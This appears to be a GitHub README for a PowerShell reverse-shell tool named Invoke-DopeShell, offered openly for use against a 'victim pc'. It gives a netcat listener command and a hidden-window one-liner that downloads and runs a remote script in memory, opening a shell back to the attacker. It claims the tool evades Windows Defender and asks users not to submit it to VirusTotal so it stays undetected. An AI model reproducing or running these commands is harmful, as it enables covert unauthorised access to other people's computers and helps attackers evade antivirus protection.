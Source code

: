 <img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v3.0-blue">
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">

# INSTRUCTIONS : - 
<br>
 <br> 
1.) Run [nc -nlvp 'port'] on your terminal to start up a listener.
<br>
 <br> 
2.) Open powershell on the victim pc and type:-  <br> 
 <br> 
Start-Process powershell -ArgumentList "-NoProfile -WindowStyle Hidden -Command IEX (IWR 'https://raw.githubusercontent.com/anonymous300502/powershell_payload/main/Invoke-DopeShell.ps1' -UseBasicParsing); Invoke-DopeShell 'IP' 'PORT'". <br> Enter the IP ADDR and PORT of YOUR machine from where you are listening.

## This will spawn a interactive shell with the target pc and run in memory to evade AV 
### Currently undetectable by the latest updated version of windows defender on Win 11 ( last tested on 17:00 IST June 13th 2024) 

Please dont upload the script on virus total :) 


# SCREENSHOTS:-
<br>
## Listener - 
<br>
<img src="https://github.com/anonymous300502/powershell_payload/blob/main/listener.png.png">
<br>
## Spawned Connection without alerting Windows Defender -
<br>
<img scr="powershell_payload/spawned_interactive_shell.png.png">
<br>
## Victim Pc - 
<br>
<img src="https://github.com/anonymous300502/powershell_payload/blob/main/victimpc.png.png">
<br>
